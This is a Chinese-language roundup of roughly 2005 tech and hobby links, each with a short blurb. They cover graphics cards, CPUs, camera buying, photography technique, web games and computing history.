文章链接:http://www.dslr.com.cn/trends/new/200508/2439.html

# 12 年 nVIDIA 卡历程全回顾

2005 年 6 月 22 日，NVIDIA 在北京发布了其第七代显示核心——G70，其相应的产品也被正式命名为 GeForce 7800，这距 NVIDIA 成立整整 12 年。在这 12 年中，显卡技术得到了极大的发展和延伸，而 3D 显示技术则是 NVIDIA 在这 12 年中赖以成名立业的有力武器……

文章链接:http://www.pcpop.com/doc/0/103/103183.shtml

# 买 DC 防 JS 十二大宝典

数码相机的普及大潮势不可挡，一款款疯狂降价的靓机让很多原来捂紧了腰包的消费者都忍不住出手了。面对经销商报出的远低于官方指导价的所谓“优惠价”，你是否心有疑虑？如何防范水货、次品、二手翻新机？来看看这个防 JS 宝典，学会这十二招之后，虽然不能提高你的杀价能力，但至少可以避免被骗。

文章链接:http://www.pcpop.com/doc/0/103/103370.shtml

# 黄金分割——化腐朽为神奇

本期的“偶就稀饭”中，给我们讲述了“黄金分割”的种种神奇。其实这个规律在摄影中得到了广泛的应用，本文通过多幅精美的摄影作品，详细讲述了黄金分割规律在摄影中的应用及其多种变化形式，读后一定大有收益。

文章链接:http://www.ccdoo.com/2004/data/2005/0602/article_997.htm

# 点与线的游戏

记得《向左走 向右走》中有一句话，“两条平行线也可能会有交汇的一天”。现在我们要做的就是移动图中的点，不再让那堆线相交。我们的目标——没有“叉”。

游戏地址:http://www.planarity.net/

# 游戏币收集爱好者

有人集邮，有人收集名家字画，有人收集火柴盒，今天才发现，居然还有人收集游戏币！在这里有超过 300 张千奇百怪、各式各样的游戏币的照片，看上去有的设计实在是妙趣横生，不得不佩服设计者。

文章链接:http://www.flickr.com/photos/petromyzon/sets/587315/

# 送你一朵玫瑰花

如果能亲手绘制一朵绽放的玫瑰，把这自然之美溶入心头，实在是一件快乐的事情。现在就让我们一起打开 Illustrator，开始我们的玫瑰之旅吧。

文章链接:http://www.ccdoo.com/2004/data/2005/0505/article_568.htm

# ThinkPad 全系扩展外设赏析

端口复制器、扩展坞和底座一直和 IBM ThinkPad 系列笔记本相辅相成，可对我们绝大部分 ThinkPad 用户知之甚少。本文会对 ThinkPad 系列全系列笔记本的扩展外设进行一个简单的介绍，其中包括现在 X 系列笔记本常见的 2631 扩展坞、底座以及端口复制器等等，还有一些其他 ThinkPad 周边设备的介绍。

文章链接:http://www.pcpop.com/doc/0/102/102879.shtml

# 究竟是谁在作弊

在 CS 战斗中，最烦的有两种人，一种是不管地图有多大都会选择一个人迹稀少的角落蹲到被爆头的“角落男”，而另一种则是滥用作弊器的无聊者。如何区分高手和作弊者？不要因为被对手穿墙打死就大骂对方使用了作弊器，但如果对手的爆头率能够始终超出代表世界最高水平的 SK 战队，那么我们就完全有理由怀疑了……

文章链接:http://www.cig.org.cn/Article/ShowArticle.asp?ArticleID=134

# 摄影镜头调制传输函数 MTF 解读

镜头是摄影师和摄影爱好者投资最高的设备之一，也是决定拍摄质量的最重要的因素。因此，镜头的质量，历来受到极大的重视。我们当然会很关心摄影镜头的测量方法。

文章链接:http://article.xitek.com/showarticle.php?id=2787

# NBA, I Love This Game!

NBA ——篮球运动商业化职业化运作的成功典范。篮球迷没有不看 NBA 的，就像足球迷没有不看英超联赛一样。一位篮球爱好者，而且还是一个追星族。他为大家搜集了众多 NBA 明星的精彩视频下载，有兴趣的朋友，赶快 Down 来，慢慢欣赏，或者珍藏也是不错的选择。

文章链接:http://www.sven8.com/blog/index.php?job=art&articleId=a_20050812_131826

# 国产电池要选好

当你在购置 DC、DV 等数码产品时，一般会随其购入一些配件，比如三脚架、电池等等。而这些正是 JS 主要的利润点，所以在购买这些配件前你一定要想清楚，它们到底是否对你有用。而这些配件中电池是我们最有可能购入的，搞清楚其中的“猫腻”就非常有必要了。

文章链接:http://doc.into zgc.com/200508/01/00061755.shtml

# 软件工程师的爱情

将爱情与软件开发进行类比，竟然发现有如此多的相似之处。在这份幽默的背后，我们是更懂得爱情了，还是更理解软件开发了？

文章链接:http://e1.club.163.com/viewElite.m?catalogId=4782&eliteId=4782_100d22e96db0011

# 用 22 万美刀手机的奢侈生活

超长悍马车、22 万美金的 VERTU 手机、46 亿年才出一块的祖母绿戒指、每张名片价值 45 美金。你能想到谁？他就是中国巨力集团现任执行总裁“杨子”。不过，他并非人们所想象的，从小就娇生惯养被“宠”大，这篇文章就会让你更深入地去了解他。

文章链接:http://www.it.com.cn/f/edu/057/28/150520.htm

# 国产手机售后服务大比拼

国产手机由于价格、本地化程度等众多因素，正越来越多地为人们所接受，尤其是国产的多普达智能手机，更是成为众多白领一族的首选。但是国产手机的售后服务状况究竟怎么样呢？是否达到了国外大公司的服务水平？经过一番比较后，这篇文章为各家良莠不齐的服务水准做了一份详细的调查报告。

# 佳能机身通吃其它镜头

买了某一家的 DSLR，并不表示你一辈子都应该在这个系统。事实上有许多购买 Canon 机身的人，是为了转接“副厂”的镜头。这里说的不是 Sigma/Tokina/Tamron 这些你在街上随便有钱就能买到的“副厂”日系现代镜头，而是 Zeiss / Schneider / Voigtlander / Rodenstock / Leica 这些扬威（要说 X 菱也可以）已的德系老镜头。配合 EF 系统镜后距短，以及 Canon 机身缩光圈就可以测光的两个优势，这些已有四五十年历史的老镜，也可以绽放出迷人的光芒……

文章链接:http://www.pcpop.com/doc/0/103/103401.shtml

# 暴怒鸦:数码相机 LCD 放大镜

一个数码相机发烧友不仅用望远镜给自己 DIY 了一个超长焦大炮镜头，更用一个放大镜给 DC 带上了一副眼镜！

文章链接:http://china.zheteng.com/n417c18.shtml

# Tt 全线静音产品

## 我和我的七个“媳妇”

一个人要七个媳妇？这可是犯法的哦！当然，这里说的可不是真的“媳妇”，只是作者对他所学过的程序语言的一种比喻罢了。文章非常幽默搞笑，却也抓住了各类程序语言的特点，可作饭后一笑。

文章链接：http://el.club.163.com/viewElite.html?catalogId=4782&eliteId=4782_100d22e968b000c

## 在网上玩的RPG

RPG就是我们大家所熟知的“角色扮演类游戏”，知名作品如FF系列，勇者斗恶龙系列等。但这种游戏类型如何在网页上玩呢？你还不知道吧，那就一起看看吧。

游戏地址：http://www.battleon.com/

## 惊爆！美军超级黑客特种部队

现代战争中，信息战的重要性已经提升到了一个新的高度。有时还没开一枪一炮，就能让敌人的军事系统全面瓦解，这就是所谓的“黑客大战”！美军中担任信息安全保卫和反击的部门，叫做“超级黑客特种部队”。

文章链接：http://www.pconline.com.cn/pcjob/nettech/safe/others/0507/671985_1.html

## 抛“键”弃“鼠” 打游戏就要用手柄

现在不少家庭电脑的最大用途就是打游戏，也有许多人购置了相对便宜的游戏手柄。通常这类手柄做工粗糙，经常出现无法“搓招”的现象，严重的甚至出现按键失灵、不能使用等故障，但对于游戏爱好者来说，一些花哨的动作技巧只有用手柄才能“搞定”。所以多花二三十块钱，买一个好游戏手柄非常有必要，不如来看看这篇手柄导购文章吧。

文章链接：http://www.pcpop.com/doc/0/99/99802_5.shtml

## 与众不同的“Windows完美版”

在Windows Vista还在测试阶段，想不想提前体验一把Windows RG版？也许你试过后，就会感觉现在的Windows要比它强得多。

文章链接：http://hackersplayground.org/humor/windows.swf

## 穿越时空只要10美元

穿越时空是人类最大的梦想，也许你认为这只是个梦，但其实俄罗斯科学家曾在一次实验中让时间减慢了1.5秒，而另外一家美国公司称，只要你现在交10美元，500年以后就可以享受“时光之旅”了。那么，你是否准备好了呢？

文章链接：http://tech.sina.com.cn/d/focus/time-space/index.shtml

## 看完一部电影只要1分钟

要看完一部电影需要多长时间？两个小时或更长？在这个网站，看完一部电影只要1分钟，至于影片，则有《乱世佳人》、《壮志凌云》等等，都是各种类型的经典大片，浓缩程度之高，真是让人大吃一惊。而实际效果呢？看过之后，你自然会清楚。

文章链接：http://rinkworks.com/movieaminute/

文章链接：http://rinkworks.com/bookaminute/

## 像吃饭一样简单的设计LOGO

作为一个美编，少不了给客户设计LOGO，除了参考优秀的设计方案外，还要掌握些最基本的设计理念。这里就为你带来一些简单的设计方法，也许你从中就可以找到不错的东西。比如转换一下大小写或是截除线条的一部分，或是组合一下，这样一个简单的LOGO就出来了。

文章链接：http://ez.blogbus.com/logs/2005/08/1371761.html

## 五大经典数码相机回顾

传统的东西，例如钟表，像“劳力士、江诗丹顿、摩凡陀、欧米茄”等品牌的名表，更是越老越值钱。它们也都被尊称为“经典”。像“姜是老的辣，酒是陈的香”这样的诗句，用在电子类产品上，似乎有点不太合适。毕竟科技产品，还是越新、越先进越好，属于电子光学产品的数码相机也不例外。难道说数码相机就不能“经典”了？

文章链接：http://tech.163.com/05/0627/09/1N8BC64D00091562.html

## 微软里程碑Win95诞生纪念

十年前的8月24日，微软推出了她，她光芒四射地站在那里，就像一个天使。人们仰望她，她不仅是业界的一个里程碑，更是人类的进步。今天让我们在Start me up的歌声中回顾当年那个叫“瘟酒屋”的好姑娘……

文章链接：http://www.pconline.com.cn/pcedu/softnews/yejie/0508/691936.html

## 4款未来iPod吓人设计

iPod的设计为无数音乐爱好者称道，知道未来的iPod将会设计成什么样子吗？一看会吓你一跳的！ 另外：这个页面下还有关于周杰伦设计的MP3的链接，一睹为快吧！

文章链接：http://www.dianziren.com/other/WEI-LAI-IPOD-SHE-JI.htm

## 经典显卡背后的故事

一个出众的品牌，一个经典的系列显卡，它的背后都有什么故事？它的兴衰史，它的技术秘密，这一切你是否想了解？

文章链接：http://www.pcpop.com/doc/0/102/102072.shtml

文章链接：http://www.pcpop.com/doc/0/104/104235.shtml

## 局域网基础知识大普及

没有接触过局域网的你，可能对于“服务器”、“双绞线”、“拓扑结构”这些词汇还不太理解。这篇文章可以帮你解决这些基础的困扰，当然，这只是基础知识，要想成为合格的网管，还需要很多知识的积累才行。

文章链接：http://blog.it168.com/more.asp?name=coosky&id=8289

## 记录发生在你身上的糗事

“糗事百科是这个世界上最爆笑的糗事分享网站，您在这里可以查看世界各地的形形色色的糗事。” 到底有多搞笑呢？他们说：三个网友曾经在这里笑掉了大牙，无数的网友曾经笑痛肚子。我们还需要警告刚刚动过手术的网友，曾经有一位网友笑脱了线，结果只好回到医院，请您拆线之后再来浏览糗事百科。

文章链接：http://ipszh.com/qiongliao/index.php

## 背下这18条 没人敢和你忽悠CPU

如今DIY市场上，CPU的种类是越来越多，千差万别，各种针脚数、不同的工艺、二级缓存，你知道什么样的CPU适合你吗？你知道不同的CPU该配备什么样的主板和系统吗？这一切请从了解CPU开始。

文章链接：http://www.enet.com.cn/article/2005/0718/A20050718435381.shtml

## 看我挑长焦！论坛网友选购长焦数码相机全写实

最近市场热卖长焦相机，如果你有这个打算，你一定要看此文，看看究竟该如何挑选长焦相机！

文章链接：http://www.pconline.com.cn/digital/dc/daogou/basics/0508/680574.html

## 给Photoshop学习者的十九条忠告

小编身边不少人都对Photoshop感兴趣，原因很简单——买了DC后，想学着网上那些Kuso族，去修改拍好的照片。于是，掀起了一阵Photoshop学习热潮。不过没多久一个个人就没了兴趣，有的是因为改起图来太麻烦，有的是觉得太难。怎么，你也要学Photoshop吗？先来看看这十九条忠告吧，它会让你少走些弯路。

文章链接：http://www.pconline.com.cn/pcjob/other/design/adobe/0508/689388.html

## 在主页上制作个人主页

你不会制作主页？但又想在网上安个家，怎么办呢？那下面这个网站你就不得不关注一下了。这个使用AJAX技术的网站，可以方便的让你添加页面模块或修改页面风格，同时还可以实时看到修改效果。

网站链接：http://www.protopage.com/

## 把耳朵叫醒

这是一场声卡音箱饕餮大餐，完整的PC音频应用解决方案，让我们在自己的电脑上Hi-Fi，让主板上的集成声卡去死吧！

文章链接：http://www.enet.com.cn/ediy/zhuanti/shengka/

## 最具创意十二个网名 你见过几个

最具耐心奖：爬上墙头等红杏。得奖评语：见过守株待兔的，但爬上墙头等别人“红杏出墙”的倒是第一次见。看看剩下的还有多么语出惊人吧！

文章链接：http://xz.bokee.com/98/2005-08-29/33580.html

## 23条让硬件长寿的基本技巧

文章作者是一个DIYer，在数年DIY经历中，对电脑使用和维护积累了一些经验。这些经验对初级菜鸟来说，有一定参考价值。有些细节看似微不足道，却有可能是解决问题的良方，比如：“硬件中断冲突会导致黑屏，当更换了显卡、内存后仍无法点亮机器时，可考虑更换插槽位置。”当然，经验的获得与个人的具体使用环境息息相关，对文章中的各种技巧方法，大家只能作为一种借鉴。

文章链接：http://hard.zol.com.cn/diy/2005/0124/146401.shtml

## 号称互联网上“最好的”Photoshop网站

这里号称是互联网上最好的PhotoShop网站之一。 与国内大多数PhotoShop主题网站不同的是，这里最精华的，可能是它的图片集。数以千计的优秀作品在这里得到展示。小编草草浏览，确有不少惊人之作。

文章链接：http://www.worth1000.com/

## CPU历史上最难忘的十个第一

CPU是一台电脑的核心、心脏，长久以来，它的速率一直按着摩尔定律飞速发展着。那么你了解CPU的前世今生么，你知道在CPU的发展史上曾发生过哪些大事，以及出现过哪些让CPU一次次发生质变的关键人物吗？了解历史，能让我们更好地看清未来。

文章链接：http://news.onlinedown.net/info/12832-1.htm

## 业余影室的灯光不足怎么办

在业余摄影中，灯光的运用非常重要。不过一盏影室灯，哪怕是国产的，配齐配件也得上千元。但如果灯少了，效果就上不去，很多人会觉得不好玩了。其实，有时单纯地增

## 偷QQ号码，犯的什么法

王先生是一位有7年“网龄”的资深网民，但近日他用了近6年的QQ号被盗，密码也被恶意修改。几年来，王先生和许多公司客户都是通过QQ交流的，现QQ号被盗，王先生的公司业务受到很大影响。王先生通过同事的QQ联系到自己原来的QQ，但对方称要想重获QQ号，必须花1000元来购买。对方要求王先生付1000元赎回家QQ号是否合法？
文章链接：http://it.sohu.com/20050816/n240257935.shtml

## 历代CPU最全明细参数表

你可以通过一些媒体了解某款或者某几款处理器的性能，但是，这多少有些片面。而这篇文章中，把过去7年内（截止于2004年）AMD和英特尔公司推出的处理器做了一个详细列表，相信这样可以帮助你在更好地了解处理器的同时，也为自己在以后购买处理器时能够做到心中有数。
文章链接：http://hard.zol.com.cn/2004/0830/116471.shtml

## 大忽悠考考你 液晶电视玩脑筋急转弯

说，一个学生拿出一根冰棍杆儿问老师像什么？数学老师说像数字“1”；英语老师说像字母“I”；化学老师说像元素“碘”，物理老师说像力矩“臂”……既然文化人都如此地主观臆断、颠三倒四，今天我大忽悠就站在自己的角度指点液晶电视卖场还是有理可依的。
文章链接：http://publish.it168.com/2005/0829/20050829501301.shtml?cPositionCode=947

## 惨不忍睹 市上最令人诧异的八款键盘

看看下面这些产品，你可能很难将它们跟键盘联系在一起。不过，这些的确是电脑键盘，其中有一些是发烧友们不满足于普通键盘的造型，自己动手改造的。很难想像这么多古怪的产品如何使用，但是它们的拥有者们似乎都自得其乐。
文章链接：http://www.enet.com.cn/article/2005/0826/A20050826448111.shtml

## 三类打印机选购指南

对于要在暑假里选购产品的消费者来说，了解市场行情和厂商推出的机器型号，是非常必要的。那么以色彩为主的打印产品，消费者是否知道自己需要什么类型的呢？这篇文章就向消费者一一展现了目前主流的三大类打印机产品。
文章链接：http://topic.zol.com.cn/2005/0624/180598.shtml

## 历史上最长10大“臭虫”

众所周知，每样设计都不可避免地存在着Bug（臭虫），这些Bug虽然不是致命的错误，但也非常惹人讨厌，甚至有些Bug由于存在时间过长已经被人们习以为常。这篇文章中就向我们介绍了计算机史上最长寿的10大Bug。当然了，这并非权威评定，只是作者的个人意见。
文章链接：http://news.sanhaostreet.com/NewsData/2004/12/200412492019271.shtml

## 把日本货摔碎 5款数码相机看谁比谁硬

试过把数码相机摔到地上是什么感觉么？要知道，数码相机属于精密的电子光学仪器，不要说摔了，就是进了水，都会使它罢工。而我们今天就要摔碎数码相机，而且一摔就要摔5台！
文章链接：http://dcdv.zol.com.cn/2005/0526/173477.shtml

## 带闪存芯片的鼠标

你听说过带32KB可存储闪存芯片的鼠标吗？现在这样的鼠标已经推出，它就是Razer最新推出的Razer Copperhead Gaming Mouse(Razer“铜斑蛇”游戏鼠标)。这款鼠标是Razer的最新产品，其配备了2000DPI的激光感应器引擎，扫描频率高达7000次/秒。最特别的是它内嵌的32KB可存储芯片Razer Synapse，可存储包括鼠标驱动及用户自定义的各个设定项目，这样玩家在外出时仍然可以使用和自己电脑上相同的设置。
文章链接：http://www.pcpop.com/doc/0/106/106936_1.shtml

## 近期四大不值得购买的CPU

尽管如今已经开学，但是对于经济并不宽裕的学子们来说又是一次采购狂潮，九月就是这样子。当然，遵循追求性价比的原则是一条不错的捷径。不过，要想在这条路上平稳地走过还真的很困难，毕竟面对市场中形形色色的产品，抉择起来很是困难。这篇文章中列举了近期四大不值得购买的CPU，并简单介绍了作者自己的理由，计划装机的朋友可以参考一下。
文章链接：http://digi.it.sohu.com/20050913/n240376691.shtml

## 火眼金睛判别16.7M液晶

现在买液晶显示器的人是越来越多了，但是大多数人唯一能去了解它的途径就是通过厂商公布的规格，但厂商给出的规格并不总是可靠的，有时甚至会让我们误入歧途，在这种情况下，用户想要选择出质量较好的液晶显示器，真可谓步履维艰。也许，这个贴子能稍解我们心中的部分谜团。
文章链接：http://www.pcpop.com/doc/0/94/94590.shtml

## 回顾苹果操作系统二十年

记得乔布斯说过，苹果的灵魂并不是硬件，而是操作系统。相信见过Max OS的朋友应该也都会被它那精致的画面所迷倒，从众多的Windows模拟苹果系统的主题，就可以看出苹果操作系统的“魔力”。还是让我们从二十年前说起吧……
文章链接：http://www.pconline.com.cn/pcdau/soft/st/other/0508/694082.html

## 联通、移动到底哪个强

联通和移动两大移动运营商，一直在互相争取用户。截止到2005年5月底，移动用户为2.2亿，联通的GSM及CDMA用户和为1.9亿。从数字上看，联通的市场份额明显不敌移动，加上联通总是靠压低价格来吸引用户的，所以收益上更是逊色。那么到底联通在哪些方面不敌移动呢？来看看本文的分析吧。
文章链接：http://www.pcpop.com/doc/0/91/91731.shtml

## 用电脑者要做的几件事

在电脑前坐久了，要适当地活动活动，这是地球人都知道的老掉牙的说教了，但是用动漫的形式再告诉你一遍，是不是给老话题带来了一丝新意？毕竟，身体是革命的本钱，健康是最重要的。
文章链接：http://tech.china.com/zh_cn/news/life/894/20050906/1263514.html

## 最牛改造！废物利用

一位电子工程师闲暇时间用电阻、电容、集成IC、打火机……做成了几辆摩托车，精美程度猛一看还不容易发觉……
文章链接：http://www.dianziren.com/

## 主板全程图解

主板是电脑的重要配件，CPU、内存、声卡、显卡等等，最终都要在主板上“安家落户”，其重要性不言而喻。不同厂家不同型号的主板，看起来千差万别，但是主要构造还是有很多相似之处的。这篇帖子，以图解的方式，为我们展示了主板的各个组成部分，非常形象。虽然介绍的不是最新的主板，但是对初学者认识主板，还是有一定的参考价值的。
文章链接：http://bbs.zol.com.cn/index20050808/index_102_94648.shtml

## 监控反恐进行式

伦敦地铁爆炸事件发生后，许多欧洲国家纷纷决定把科技力量作为打击恐怖主义的最重要手段之一，主要做法是通过设置摄像头建立完善的监视系统，而且还对电话系统实施更为严格的监控。伦敦警察局利用在街道上和地铁里安放的数千个摄像头拍摄到的影像确认了恐怖分子，这一做法使许多欧洲国家受到了启发。伦敦和沙姆沙伊赫爆炸案发生后，一些国家反对使用监视器的声音逐渐失去了力量。
文章链接：http://www.enet.com.cn/esafety/zhuanti/fankong/jiankong.htm

## 拯救硬盘十大绝招

每个用户的硬盘中都存放着大量的有用数据，而硬盘又是一个易出毛病的部件。为了有效地保存硬盘中的数据，除了备份工作以外，还要学会在硬盘出现故障时如何救活硬盘，或者提取其中的有用数据，把损失降到最小程度。
文章链接：http://www.dianziren.com/hardware/zhengjipingpan.htm

## CPU大史记

计算机中最重要的是什么？毫无疑问是CPU，即中央处理器(微型处理器)，它在计算机中的地位无可替代。真正意义的CPU的出现是1971年，从它诞生之日起到今天，已经过去了34年。今天，我们将带领读者重温那段永远都会被世人所铭记的34年。
文章链接：http://hardware.mydrivers.com/pages/200509051708_97724.htm

## E时代桌面新宠！USB怪异想法出鱼缸

自从有了USB，走入IT圈子的一些艺术细胞含量较高的人士就开始绞尽脑汁利用这小小的+5V电压了。什么USB风扇、USB吸尘器、USB充电器、USB手电筒……等等不一而足，今天看到Crazyc网站竟然提供了一个USB鱼缸。
文章链接：http://www.enet.com.cn/article/2005/0608/A20050608421961.shtml

## 特立独行二十年 回顾苹果电脑的艺术人生

对于个人电脑的用户而言，苹果电脑意味着特立独行，苹果电脑意味着杰出工业设计的作品，其一贯坚持的艺术化产品、人性化设计是众多电脑爱好者所热衷的。随着今年苹果宣布即将采用英特尔的产品，有人开始怀疑苹果电脑将沦落为众多PC同样的境地，对于这点笔者不敢苟同，只是认为这些人并没有认识到苹果电脑所一贯坚持的理念。
文章链接：http://tech.sina.com.cn/pc/2005-09-07/1432714080.shtml

## 精英主板制作流程内蒙

精英(Elitesgroup)与华硕、微星、技嘉等一样，是家喻户晓的主板生产大家，世界上许许多多电脑中的主板就出自他们的工厂。本帖中收集有多幅精英工厂内部的图片，可以让我们深入了解一下主板的生产过程。

## 全世界程序员都会犯的错误

看到标题，你可能会觉得很夸张，但这里倒是列出了很多平常容易出的问题。虽然“全世界程序员都会犯的错误”，并不能代表你犯了这些错，不过了解一下，以后注意一下不是更好？

文章链接:http://www.java-cn.com/technology/tech/3754.html

## 无聊小游戏：戳企鹅

在工作之余，你一定有无聊的时候。干什么呢？来戳戳企鹅耍吧！不过你可要小心，这只看起来很温顺的小企鹅可是会发飙的哦！玩法说明:将鼠标移到企鹅或手套上点击即可，记住要多点一会儿才能看到小企鹅抓狂的样子。

文章链接:http://www2.gamesville.lycos.com/html_poke/poke_penguin.swf

## 用一只手数到31

你用一只手可以数到几？是5，还是10？如果我说能数到31，你相信吗？当然数的时候，不是一般的十进制，而是用二进制。

文章链接:http://www.glassgiant.com/misc_count_to_31_on_one_hand.php

## 老外自制笔记本蛋糕

尽管有人说欧美人很实在，把本本当做一种很实在的工具来看，因而跟日韩的时尚精致相比，惠普、戴尔、IBM的笔记本更加朴实无华。不过同时你又不得不佩服欧美老外的创意，水、面粉、色料等等的材料，经过他们一番精心的“糊”弄，竟然还能做出个本本来。

文章链接:http://tech.com.com.cn/hardware/notebook/10002553/20050826/12605046.html

## 收藏也需要天分的

没想到一盘DVD的包装会如此精美、如此艺术，真是感叹包装者的创意无限呀！如果里面装的是月饼，一定被判为过度包装！

文章链接:http://ent.sina.com.cn/bbs/p/2005/0910/0040565.html

## 29种光盘的考验

买DVD刻录机主要是为了什么？当然是为了刻盘，因此本文将刻录机的选择聚焦于光盘的刻录上。用品种单一的光盘并不能完全反映出刻录机的品质，而用有限的刻录机机型也不能反映某种盘片的客观情况，光盘的刻录质量是机器与盘片相辅相成的结果，由此本文将呈现一次大规模的横向交叉测试，不光是测刻录机，也要看看光盘的表现。相信这也是广大用户所希望了解的。

文章链接:http://hardware.mydrivers.com/pages/200502081724_24009.htm

## 祝超级玛丽生日快乐

还记得第一次玩超级玛丽是什么时候吗？20岁以上的朋友应该没有不知道超级玛丽的吧，从一代开始，这位水管工和我们一起长大，给我们带来了无数快乐。他刚刚度过了他20岁的生日，祝他生日快乐。

玛丽的东家任天堂还为他准备了生日主页，可惜日文看不懂，不过可以听听超级玛丽风格的生日快乐歌。另外，你可以到http://janis.or.jp/users/segabito/JavaScriptMaryo.html 玩玩JavaScript版超级玛丽。

文章链接:http://www.nintendo.co.jp/mario20th/index.html

## 垃圾谁会买单？八款设计极失败的硬件

中国有句古话，叫“好心办坏事”。意思就是一个人做事本来是出于好心好意，反而把事情做砸了，做坏了。其实这种事情我们已经屡见不鲜了，然而您可知道，在电脑硬件上也有不少是厂家出于好意的考虑，而生产出来却被定义成“坏事”的产品？并且还不下面我们就来见识一下吧。

文章链接:http://www.pcpop.com/doc/0/106/106486.shtml

## PC硬件十大弃儿

如今的IT产业的发展速度极为迅速，产品市场上的竞争更是尤为激烈，每时每刻都有令人目不暇接的技术、新品发布。这些硬件产品中的经典者无一例外都凝聚着设计者的满腔热血！但是因为种种原因……家道中落(开发厂商倒闭或被收购)，一些本来大有希望的“孩子”们被迫辍学，流落街头，最终成为悲哀的弃儿……

文章链接:http://hardware.mydrivers.com/pages/200503151514_64549.htm

## 从桌面鸟瞰地球

EarthView是一个相当有趣的动态壁纸及屏幕保护程序，它能让我们在桌面上直接看到从外太空鸟瞰地球的景观，包括日光照射区及夜晚的黑影区。EarthView能产生高达1600x1200高品质解析度的画面，而显示模式可以地图(map)或地球仪(globe)的方式呈现。其他的显示信息还包括地理疆界、地形、天气效果、城市分布和时间等，都能由用户自行修改选项及设定参数，以达到最佳的观看效果。

文章链接:http://www.desksoft.com/EarthView.htm

## 《帝国时代3》背后的秘密？

《帝国时代3》试玩版已经推出了，除了“暴强”的画面和可玩性外，还有一些细节不知你是否注意到，炸弹在人群里面爆炸的过程、房屋被毁的时候会是一点点倒塌等。这些在背后影响游戏的是什么呢？它就是“物理引擎”，“物理引擎”影响了一个游戏的平衡性等方面，让我们来看看Havok物理引擎的威力吧。要知道在《半条命2》中就是使用这款物理引擎的。

文章链接:http://www.pcpop.com/doc/0/108/108015.shtml http://www.pcpop.com/doc/0/108/108451.shtml

## iPod nano的另类用途

最近IT产品的焦点当属苹果公司推出的iPod nano，网上也铺天盖全是关于它及苹果公司的报道消息，比如iPod mini将会停产;苹果公司的iPod系列已占据MP3市场份额的50%等等。那么iPod nano除了听歌外还可以做些什么呢？

文章链接:http://www.imp3.net/article/article.php?articleid=6037

除了上面的另类应用外，一些Fans还对nano进行“惨无人道”的折磨……

文章链接:http://tech.com.com.cn/digital/audio/1102/20050915/12658209.html

## TGS 2005专题报道

前段时间2005东京电玩展刚刚落下帷幕，在这次展会上，XBOX360上的大作、PS3上的MGS4、新鲜的“革命”手柄、NDS及PSP上的新鲜作品都成了人们所关注的焦点。让我们一起去看看在这届电玩展中都有哪些新鲜的内容吧。

文章链接:http://www.gamespot.com.cn/gamespot/z/tgs2005

## 见标识，知镜头

摄影镜头的标识中，基本包含了镜头属性、焦距参数、光圈参数、版本序号及其所具有的特点等信息。这篇文章通过图文实例介绍了通过标识认识镜头的一些方法，另外为了便于识别，还收集了一些常见镜头的标识简写，资料比较全面。

## 夜，也可以多彩多姿

白天，阳光赋予万物斑斓的色彩，夜晚，霓虹灯点缀都市黑色的天空，让我们用手上的数码相机，来记录下这多彩的夜……夜景很美，但是想要拍出多彩多姿的夜景照片却不是件容易的事情，本文作者与你分享的一些夜景拍摄技巧，也许会对你有所帮助。

文章链接:http://www.dpnet.com.cn/school/school_show.asp?id=1999

## 用直方图分析照片的曝光

在Photoshop CS中，执行菜单命令“窗口→直方图”即可打开图片的直方图对话框。通过直方图显示的数据，我们就可以分析出一张照片的曝光的好坏，再根据实际情况加以调整补救。这篇文章通过几个图例，给我们介绍了通过直方图分析照片曝光的简单方法，非常实用。

文章链接:http://www.xitek.com/info/showarticle.php?id=1372

## 图解各类操作系统的安装过程

对大多数菜鸟来说，安装操作系统可不是一件简单的事情，如果没有高手在旁指点，而是让他自己独立操作的话，安装的过程当中往往会不知所措，无法进行下去。在这个帖子里，收集了多个不同操作系统安装过程图解的文章链接，对菜鸟一定会有很大的帮助。

文章链接:http://p5.club.163.com/viewArticleByWWW.m?boardId=windows&articleId=windows_1060036bd095b5b&boardOffset=0

## 教你准确分辨返修板卡

有商场或厂家将返修品当新货卖的现象，为了避免用户买到返修品，本文讲了返修电脑配件的几个较简单的鉴别方法……

文章链接:http://diy.zol.com.cn/20/207517.html

## 电脑市场防骗详尽指南

虽然随着近两年来处理器技术的不断升级，Remark CPU的现象已经基本消失，但由于目前处理器的分化日趋细致，即使处理器所属的系列、主频完全相同，它们所支持的功能也会有所区别。其他如市场上假冒内存的仿真程度很高，一般也难以区分。本文将教你一些检测的技术，以辨真假。

文章链接:http://diy.zol.com.cn/2005/0913/203697.shtml

## 谁在诋毁BT下载的声誉

互联网上，最迷人、最受欢迎的网络协议和点对点(P2P)文件传播系统就是2001年才首次问世的BitTorrent。之后持续不断的改善最终让它在2003年一鸣惊人，到2005年初，它可能已经成为仅次于TCP/IP的网络垄断协议了。微软似乎睡着了，让BitTorrent得以不断发展而没有采取任何行动。所以，现在不能不令人怀疑微软正在干些肮脏的勾当来损坏BT的声誉，除此之外没有什么可以解释最近的一系列似乎相当巧合的报道和事件。

文章链接:http://diy.zol.com.cn/2005/0902/200393.shtml

## LCD淘汰CRT七大理由

如果你还在犹豫兜里节衣缩食攒起来的私房钱究竟是买LCD还是CRT，那么本文将给你最好的回答。

文章链接:http://tech.sina.com.cn/h/2005-09-08/0842714686.shtml

## 十大流氓软件完全卸载方案

如今网上各种流氓软件纵横，不经你的允许就私自寄生电脑之中，还时不时跳出来骚扰你的正常工作，给电脑用户带来了很大的麻烦。本文介绍了十种常见的流氓软件及其完全卸载方案，还你一个清净的电脑使用环境。

## 兴风作浪一番，甚是令人厌恶，怎么办？干掉它们！

文章链接:http://www.enet.com.cn/article/2005/0915/A20050915453969.shtml

## 25个至今不能解答的科学问题

宇宙是由什么组成的？我们是宇宙中的惟一吗？地球会变得多热？生命的起源是什么？什么能替代石油？人类寿命可以延长多久……这个世界充满了不解之谜，也许有一天，你将成为破解它们的人。

文章链接:http://forum.tech.sina.com.cn/cgi-bin/view.cgi?gid=23&fid=295&thread=22201&date=20050907&page=1

## 破解广告摄影照片之谜

一张让人称赞的照片作品，总是可以让人学到很多东西，不过很多摄影爱好者看到好的作品总是抱怨自己的设备不够精良，于是砸锅卖铁，从牙缝里挤出银两，上更高的器材，其实，网友有所不知，一些广告摄影作品在有好的器材的前提下还有拍摄手段和技巧在里面……

文章链接:http://www.pcpop.com/doc/0/108/108966.shtml

## 30余款DVD盘片一览

DVD刻录机降价了，DVD刻录盘在中国人民的努力下也降价了，而且降的不是一点半点，当然，在优秀价格的基础上，这品质是不是也像中国恩格尔系数那样“飞流直下三千尺”呢？

文章链接:http://doc.intozgc.com/200509/12/00066716.shtml

## 最具创意电脑配件TOP10

